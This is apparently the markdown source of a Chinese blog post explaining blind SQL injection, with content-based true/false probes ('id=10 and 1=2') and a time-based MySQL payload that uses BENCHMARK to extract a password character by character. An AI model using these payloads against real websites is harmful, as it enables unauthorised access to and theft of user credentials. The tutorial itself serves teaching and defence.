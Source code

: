 ```yaml
---
layout: post
title: 盲SQL注入攻击
---
```


盲SQL注入攻击(blind SQL injection attack)是[SQL注入攻击](http://topspeedsnail.com/hack-sql-injection-attack/)的一种类型，这种攻击方式是问数据库"真假"问题，然后根据数据库的回应判断答案－应用程序输出的错误信息。

盲SQL注入和SQL注入的不同是从数据库中获得数据的方式，当数据库不向网页上输出数据时，攻击者通过问数据库一系列的"真假"问题获得敏感数据。

### 基于内容

假设有一个根据ID号显示文章的简单网页，攻击者可以执行几个简单的测试来判断这个页面是否可以执行SLQ注入攻击。

示例网页：

```
http://blogspot.com/article.php?id=10
```

发送到数据库的查询：

{% highlight sql %}
SELECT title, dateTime, content FROM article WHERE ID=10
{% endhighlight %}

攻击者注入返回"假"的SQL查询：

```
http://blogspot.com/article.php?id=10 and 1=2
```

SQL查询语句变为：

{% highlight sql %}
SELECT title, dateTime, content FROM article WHERE ID=10 and 1=2
{% endhighlight %}

如果web应用容易受到SQL注入攻击，那么它可能不会返回任何东西。为了确认，攻击者再次注入返回"真"的SQL查询：

```
http://blogspot.com/article.php?id=10 and 1=1
```

如果真假两次查询返回的数据内容不一样，攻击者就可以判断什么时候SQL语句返回ture/false。一旦把这一点确认之后，攻击者就可以根据不同SQL语句执行不同的任务。

### 基于时间

这种攻击方式依赖数据库响应时间。根据返回结果的时间长短可以判断出SQL语句是否成功执行。

以MySQL为例：

条件判断语句：

{% highlight sql %}
SELECT IF(expression, true, false)
{% endhighlight %}

如果expression表达式为真，执行一些延时操作，如，BENCHMARK()：

```
BENCHMARK(5000000，ENCODE('MSG', 'by 5 sec'))
```

执行ENCODE函数5000000次，影响了查询响应时间。

组合起来：

{% highlight sql %}
UNION SELECT IF(SUBSTRING(passwd,1,1)='a', BENCHMARK(5000000，ENCODE('MSG', 'by 5 sec')), null) FROM users WHERE id=1;
{% endhighlight %}

如果数据库响应时间变长，也许id==1的的用户密码第一个字符为'a':

使用这种方法依次探测其余的密码字符。

这个方法和上面的不同，它不影响数据库返回的数据。

很显然，上面我们使用了已知的字段名，其实，这些字段名有可能猜出来，也可以慢慢尝试（查看错误信息）。

手动执行上面的攻击是很费时的，幸运的是有很多现成的自动化工具，有一个工具叫[SQLMap](sqlmap.org):

![sqlmap]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-14 12-24-45.png)

![sqlmap]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-14 12-37-19.png)

[黑客常用攻击方式汇总](http://topspeedsnail.com/hacker-attack-method/)